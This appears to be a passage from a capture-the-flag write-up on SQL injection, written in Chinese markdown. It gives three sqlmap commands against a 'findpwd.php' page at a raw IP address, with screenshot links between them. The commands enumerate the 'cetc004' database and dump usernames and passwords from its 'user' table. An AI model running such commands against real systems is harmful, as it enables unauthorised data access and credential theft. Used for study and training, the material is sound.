 python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" -D cetc004 --tables

![image-20200919202415152](SQL注入.assets/image-20200919202415152.png)

python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" -D cetc004 -T user --columns

![image-20200919202424640](SQL注入.assets/image-20200919202424640.png)

python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" -D cetc004 -T user -C 'username,password' --dump

![image-20200919202436798](SQL注入.assets/image-20200919202436798.png)